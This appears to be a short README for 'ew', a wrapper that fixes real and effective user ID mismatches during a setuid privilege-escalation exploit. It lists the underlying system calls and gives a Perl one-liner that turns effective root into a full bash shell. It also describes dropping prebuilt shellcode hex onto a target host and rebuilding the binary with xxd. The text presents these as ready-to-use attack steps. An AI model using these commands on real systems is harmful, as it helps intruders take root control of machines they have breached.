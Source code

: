 # ew #

_ew_ is a simple wrapper program for circumventing ruid / euid mistmatches during a suid exploit. It's so simple, the code is really self documenting. 

	geteuid();
	setreuid();
	setregid();
	execve();

Another quick method if perl is available would be:
	perl -U -e '$<=$(=$>;system("/bin/bash");'

Enjoy!

## ew shellcode ##

The files with shellcode are the same ew, but were build with '-Os' and then stripped, before being run through xxd -p. This is useful when the target host has xxd but no compiler.

	cat ew-x64-shellcode.hex | xxd -p -r > ew
